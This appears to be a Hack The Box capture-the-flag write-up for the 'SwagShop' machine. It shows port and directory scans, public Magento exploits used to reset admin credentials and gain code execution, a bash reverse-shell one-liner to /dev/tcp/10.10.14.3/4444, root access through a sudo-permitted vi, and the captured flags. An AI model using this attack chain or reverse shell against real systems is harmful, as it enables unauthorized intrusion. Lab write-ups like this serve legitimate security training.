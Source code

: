 # SWAGSHOP

## NMAP

```
┌──(kali㉿kali)-[~/Downloads/hackthebox/swagshop]
└─$ nmap 10.10.10.140 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-11 06:59 EDT
Nmap scan report for 10.10.10.140
Host is up (0.31s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 88.10 seconds
                                                                                    
┌──(kali㉿kali)-[~/Downloads/hackthebox/swagshop]
└─$ nmap 10.10.10.140 -p 22,80 -A
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-11 07:00 EDT
Nmap scan report for 10.10.10.140
Host is up (0.34s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
|   256 2e:30:00:7a:92:f0:89:30:59:c1:77:56:ad:51:c0:ba (ECDSA)
|_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Did not follow redirect to http://swagshop.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.16 seconds
```

## PORT 80

### HOMEPAGE

![](https://github.com/Leo-2807/Writeups/blob/main/images/swagshop1.png)

### GOBUSTER

```
┌──(kali㉿kali)-[~/Downloads/hackthebox/swagshop]
└─$ gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://10.10.10.140 -t 100 -x .txt,.jpg,.php -q
/.htpasswd.jpg        (Status: 403) [Size: 300]
/.htpasswd            (Status: 403) [Size: 296]
/.htpasswd.php        (Status: 403) [Size: 300]
/.htpasswd.txt        (Status: 403) [Size: 300]
/.htaccess.php        (Status: 403) [Size: 300]
/.hta                 (Status: 403) [Size: 291]
/.htaccess            (Status: 403) [Size: 296]
/.hta.txt             (Status: 403) [Size: 295]
/.htaccess.txt        (Status: 403) [Size: 300]
/.hta.jpg             (Status: 403) [Size: 295]
/app                  (Status: 301) [Size: 310] [--> http://10.10.10.140/app/]
/.htaccess.jpg        (Status: 403) [Size: 300]                               
/.hta.php             (Status: 403) [Size: 295]                               
/api.php              (Status: 200) [Size: 37]                                
/cron.php             (Status: 200) [Size: 0]                                 
/errors               (Status: 301) [Size: 313] [--> http://10.10.10.140/errors/]
/favicon.ico          (Status: 200) [Size: 1150]                                 
/includes             (Status: 301) [Size: 315] [--> http://10.10.10.140/includes/]
/index.php            (Status: 302) [Size: 0] [--> http://swagshop.htb/]           
/install.php          (Status: 200) [Size: 44]                                     
/index.php            (Status: 302) [Size: 0] [--> http://swagshop.htb/]           
/js                   (Status: 301) [Size: 309] [--> http://10.10.10.140/js/]      
/lib                  (Status: 301) [Size: 310] [--> http://10.10.10.140/lib/]     
/LICENSE.txt          (Status: 200) [Size: 10410]                                  
/media                (Status: 301) [Size: 312] [--> http://10.10.10.140/media/]   
/pkginfo              (Status: 301) [Size: 314] [--> http://10.10.10.140/pkginfo/] 
/server-status        (Status: 403) [Size: 300]                                    
/shell                (Status: 301) [Size: 312] [--> http://10.10.10.140/shell/]   
/skin                 (Status: 301) [Size: 311] [--> http://10.10.10.140/skin/]    
/var                  (Status: 301) [Size: 310] [--> http://10.10.10.140/var/]  
```

I checked through these pages but did not find anything useful 

## EXPLOIT

Doing a quick google search for exploits lead me to this [magento exploit](https://www.exploit-db.com/exploits/37977)


So there is a login page at ```/admin``` and the script will change the username and password so that we can login into it

### /ADMIN

![](https://github.com/Leo-2807/Writeups/blob/main/images/swagshop2.png)

After making some necessary changes to the script and setting the target ```target = "http://10.10.10.140/index.php"``` I ran the script 

```
┌──(kali㉿kali)-[~/Downloads/hackthebox/swagshop]
└─$ ./37977.py                                                                      
WORKED
Check http://10.10.10.140/index.php/admin with creds user:pass
```

### LOGIN

![](https://github.com/Leo-2807/Writeups/blob/main/images/swagshop3.png)

We find the magento version at the bottom of the page

### SHELL

Now we have the specific version of magento and also authentication

Using searchsploit 

```
┌──(kali㉿kali)-[~/Downloads/hackthebox/swagshop]
└─$ searchsploit magento 1.9.0.
---------------------------------------------------------- ---------------------------------
 Exploit Title                                            |  Path
---------------------------------------------------------- ---------------------------------
Magento < 2.0.6 - Arbitrary Unserialize / Arbitrary Write | php/webapps/39838.php
Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execut | php/webapps/37811.py
Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execut | php/webapps/37811.py
---------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

I download the exploit and run it

```
┌──(kali㉿kali)-[~/Downloads/hackthebox/swagshop]
└─$ ./37811.py http://swagshop.htb/index.php/admin "id"                            
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Now that we have code execution we can get a shell

```
┌──(kali㉿kali)-[~/Downloads/hackthebox/swagshop]
└─$ ./37811.py http://swagshop.htb/index.php/admin "bash -c 'bash -i >&/dev/tcp/10.10.14.3/4444 0>&1'"
```

## USER.TXT

```
www-data@swagshop:/var/www/html$ cd /home
cd /home
www-data@swagshop:/home$ ls
ls
haris
www-data@swagshop:/home$ cd haris
cd haris
www-data@swagshop:/home/haris$ ls
ls
user.txt
www-data@swagshop:/home/haris$ cat user.txt
cat user.txt
a448877277e82f05e5ddf9f90aefbac8
```

## ROOT.TXT

Using ```sudo -l``` to check sudo permissions of our user

```
www-data@swagshop:/var/www/html$ sudo -l
sudo -l
Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*
```

So we have permission to run vi
On searching at [gtfobins](https://gtfobins.github.io/) I found that we can create a shell by using ```:shell``` 

```
www-data@swagshop:/var/www/html$ sudo /usr/bin/vi /var/www/html/index.php
:shell
whoami
root
cat /root/root.txt
c2b087d66e14a652a3b86a130ac56721

   ___ ___
 /| |/|\| |\
/_| ´ |.` |_\           We are open! (Almost)
  |   |.  |
  |   |.  |         Join the beta HTB Swag Store!
  |___|.__|       https://hackthebox.store/password

                   PS: Use root flag as password!
```

